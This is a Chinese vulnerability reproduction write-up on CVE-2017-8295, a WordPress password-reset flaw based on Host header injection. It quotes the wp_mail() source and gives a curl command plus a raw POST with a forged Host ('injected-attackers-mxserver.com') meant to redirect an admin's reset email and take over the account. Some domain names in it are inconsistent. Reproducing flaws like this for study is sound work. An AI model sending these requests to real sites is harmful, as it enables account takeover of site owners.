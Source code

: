 ```yaml
---
title: "（CVE-2017-8295）WordPress <=4.8.3 任意密码重置/HOST头注入漏洞"
id: zhfly3259
---
```


# （CVE-2017-8295）WordPress 2.3-4.8.3 任意密码重置/HOST头注入漏洞

## 一、漏洞简介

在 WordPress 2.3-4.8.3 版本中找回密码功能未正确设置发送邮件的信息，在发送找回密码邮件的过程中直接使用 Host 地址作为邮件请求头的一部分，在一些情况下攻击者可利用该功能窃取找回密码邮件内容。

## 二、漏洞影响

WordPress 2.3-4.8.3

## 三、复现过程

### 漏洞分析

在 WordPress 中， wp_mail() 函数用来发送邮件，在发送邮件的过程中如果没有设置 发件地址（From） ，则会自动使用 'wordpress@' + $_SERVER['SERVER_NAME'] 作为邮件的 发件地址。主流的 Web 服务器中的 SERVER_NAME 变量来自于客户端请求中 HTTP_HOST 头，这就意味着该发件地址是用户可控的。

wp_mail() 函数的声明在文件 WordPress/wp-includes/pluggable.php 中：

```
function wp_mail( $to, $subject, $message, $headers = '', $attachments = array() ) {
...//ignore
    if ( !isset( $from_email ) ) {
        // Get the site domain and get rid of www.
        $sitename = strtolower( $_SERVER['SERVER_NAME'] );
        if ( substr( $sitename, 0, 4 ) == 'www.' ) {
            $sitename = substr( $sitename, 4 );
        }
        $from_email = 'wordpress@' . $sitename;
    }
    /**
     * Filters the email address to send from.
     *
     * @since 2.2.0
     *
     * @param string $from_email Email address to send from.
     */
    $from_email = apply_filters( 'wp_mail_from', $from_email );
    /**
     * Filters the name to associate with the "from" email address.
     *
     * @since 2.3.0
     *
     * @param string $from_name Name associated with the "from" email address.
     */
    $from_name = apply_filters( 'wp_mail_from_name', $from_name );
    $phpmailer->setFrom( $from_email, $from_name );
...//ignore
} 
```

在某些情况下邮件服务器会直接将邮件的 发件地址 作为 退件地址（Return-Path），当邮件发送失败时邮件会被自动转发到 退件地址。因为 发件地址 可被篡改，因此找回密码邮件的内容可能会被发送到恶意的邮件服务器中。

### 漏洞复现

#### 安装 WordPress 程序

此处的管理员邮箱设置为不存在的邮箱地址 demo@0-sec.org，用来模拟通过DNS攻击/DOS攻击使管理员的找回密码邮件发送失败

![image](../img/be7395c5c6efd5e9e8a42b379d309cb4.png)

#### 创建邮箱账户

演示中我们使用的是 wordpress@0-sec.org

#### 通过在线终端，发起找回密码请求，并篡改 HTTP_HOST 请求头

我们这里使用在线终端模拟攻击内网的 WordPress 网站。

在线终端中执行：

```
curl -v 'http://0-sec.org/wp-login.php?action=lostpassword' -H 'Host: vulnspy.com' --data 'user_login=admin&redirect_to=&wp-submit=Get+New+Password' 
```

![image](../img/1766050ba71b03dc39f30593f79e0038.png)

post数据包：

```
POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
Host: injected-attackers-mxserver.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 56 `user_login=admin&redirect_to=&wp-submit=Get+New+Password` 
```

如果此时邮件发送失败，邮件会被自动退回到 wordpress@0-sec.org。即原本要发送管理员邮箱 demo@0-sec.org 的邮件会被发送到 wordpress@0-sc.org

#### 使用 wordpress@0-sec.org 接收找回密码邮件

如果利用成功 wordpress@v0-sec.org 会接收到密码重置邮件。

![image](../img/e423e1e515d6db32ddb98681c3ce07eb.png)

如果邮件内容没有显示找回密码链接，可以通过邮件源文件发现找回密码链接

![image](../img/785dac52d8cdb7c1b0d6cc269251735e.png)

#### 使用找回密码链接修改密码

![image](../img/2ea73d1d01c84bfda1b2f42907bf86d2.png)